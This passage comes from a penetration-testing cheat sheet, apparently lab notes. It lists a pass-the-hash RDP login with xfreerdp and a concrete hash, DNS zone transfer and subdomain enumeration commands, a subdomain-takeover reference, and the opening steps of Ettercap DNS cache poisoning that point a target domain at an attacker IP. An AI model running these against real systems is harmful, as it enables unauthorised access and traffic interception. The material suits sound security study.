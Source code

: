 **Starting RDP Session using Pass The Hash (xfreerdp)**

```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

# DNS

## Enumeration

### **DNS Zone Transfer**

```
dig AXFR @<NAMESERVER> <DOMAIN_NAME>
```

### DNS Enumeration using Fierce

```
fierce --domain zonetransfer.me
```

### **Subdomain Enumeration using Sublist3r**

Enumerates subdomains using many search engines such as Google, Yahoo, Bing,

```
python sublist3r.py -d example.com
```

### **Subdomain Enumeration using Subfinder**

```
subfinder -d inlanefreight.com -v 
```

### Subdomain Enumeration using Subbrute

### Subdomain TakeOver

[GitHub - EdOverflow/can-i-take-over-xyz: "Can I take over XYZ?" — a list of services and how to claim (sub)domains with dangling DNS records.](https://github.com/EdOverflow/can-i-take-over-xyz)

### DNS Cache Poisoning (Local) with Ettercap

1.- Modify `/etc/ettercap/etter.dns` and map the target domain to attacker IP

```
TARGETDOMAIN.com      A   192.168.225.110
*.TARGETDOMAIN.com    A   192.168.225.110
```

**2.- Scan For Host and Select Target**

**Note 1**: You have to choose 2 targets (usually victim_ip and default_gatewayIP)
